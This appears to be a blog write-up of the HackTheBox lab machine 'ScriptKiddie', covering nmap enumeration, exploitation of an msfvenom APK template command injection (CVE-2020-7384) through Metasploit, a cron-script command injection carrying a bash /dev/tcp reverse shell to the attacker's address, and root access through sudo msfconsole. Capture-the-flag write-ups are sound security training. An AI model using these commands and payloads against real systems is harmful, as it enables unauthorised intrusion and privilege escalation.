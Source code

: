 !---
layout:  single
title:   "ScriptKiddie"
date:    2021-05-26
toc: true
toc_sticky: true
author_profile: true
---
{:refdef: style="text-align: center;"}
[![box card](/assets/images/scriptkiddie/info_card.png)](/assets/images/scriptkiddie/info_card.png)
{: refdef}

ScriptKiddie is an easy rated machine on HackTheBox by [0xdf](https://www.hackthebox.eu/home/users/profile/4935). For the user part we will exploit a web application that let's us generate mfsvenom files with templates abusing [CVE-2020-7384](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/). This gives us a shell as the user `kid`, from whom we pivot to the user `pwn` abusing a running cronjob with another command injection. As `pwn` we can run `msfconsole` as root,  which let's us drop into a rootshell executing bash.

# User
## Nmap
As usual we start our enumeration on the target with an allports nmap scan to capture the whole attack surface, followed by a script and version detection scan to obtain more detailed information on the open ports.

`Nmap allports`

```
$ sudo nmap -p- -T4 10.129.153.127
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 06:12 UTC
Nmap scan report for 10.129.153.127
Host is up (0.073s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 46.68 seconds
```

`Nmap script and version scan`

```
$ sudo nmap -p22,5000 -sC -sV 10.129.153.127
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 06:16 UTC
Nmap scan report for 10.129.153.127
Host is up (0.032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```

## Msfvenom template
Going over to the werbserver on port 5000 we can see that it is offering 3 different applications.

{:refdef: style="text-align: center;"}
[![website](/assets/images/scriptkiddie/website.png)](/assets/images/scriptkiddie/website.png)
{: refdef}

We can scan a host with nmap entering an ip, generate `msfvenom` payloads with templates and also perform a `searchsploit` search. Scanning localhost with the nmap service we don't get any additional information. The interesting thing here is the payload generation with a template because it is vulnerable to [CVE-2020-7384](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).
This works by exploiting a command injection vulnerability in msfvenom when generating an `apk` payload with a template file.
In a first step we will generate the malicious apk file using the msf module `unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`.

```
       =[ metasploit v6.0.44-dev                          ]
+ -- --=[ 2132 exploits - 1139 auxiliary - 363 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to 
check out the result of hosts and services

[*] Starting persistent handler(s)...
msf6 > use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.14.7
lhost => 10.10.14.7
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lport 7575
lport => 7575
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/jack/.msf4/local/msf.apk
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > 
```

Next we set up our `ncat` listener on the selected port.

```
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

With preparations set we can now generate the `msfvenom` payload with our malicious `apk` template.

{:refdef: style="text-align: center;"}
[![payload_web](/assets/images/scriptkiddie/payload_web.png)](/assets/images/scriptkiddie/payload_web.png)
{: refdef}

After a short moment we get a hit back on our `ncat` listener and upgrade the shell. Now we can grab the user flag in `/home/kid`.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.153.127.
Ncat: Connection from 10.129.153.127:47952.
python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ export TERM=xterm
export TERM=xterm
kid@scriptkiddie:~/html$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

kid@scriptkiddie:~/html$ stty rows 55 cols 236
kid@scriptkiddie:~/html$
```

```
kid@scriptkiddie:~$ wc -c user.txt 
33 user.txt
```

# Root

## Command injection #2
Looking around in the other users home directory we find the script `scanlosers.sh`. This script reads the logfile in `home/kid/logs/hackers` takes the third argument in each row, seperated by a space and runs a nmap script against it. This is also vulnerable to a simple command injection, which we can use to gain a shell as the user pwn.

```
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

First we set up our listener again.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Then we place our command injection in the logfile and recieve an instant shell on the target.

```
kid@scriptkiddie:/home/pwn$ echo 'x x ;bash -c "bash -i >& /dev/tcp/10.10.14.7/7575 0>&1;"' > /home/kid/logs/hackers
```

We upgrade our shell again and continue on our way to root.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.153.127.
Ncat: Connection from 10.129.153.127:48198.
bash: cannot set terminal process group (803): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
pwn@scriptkiddie:~$ export TERM=xterm
export TERM=xterm
pwn@scriptkiddie:~$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

pwn@scriptkiddie:~$ stty rows 55 cols 236
pwn@scriptkiddie:~$
```

## Sudo on Metasploit

Checking the sudo permission we see that pwn can run msfconsole as root. Since we can issue os commands inside msf, this gives us an easy way to escalate to root.

```
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

We start up msfconsole with sudo and execute `/bin/bash`.

```
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
```

This drops us into a rootshell and we can grab the rootflag.

```
msf6 > /bin/bash
[*] exec: /bin/bash

root@scriptkiddie:/home/pwn# id
uid=0(root) gid=0(root) groups=0(root)
root@scriptkiddie:/home/pwn# wc -c /root/root.txt
33 /root/root.txt
root@scriptkiddie:/home/pwn# 
```
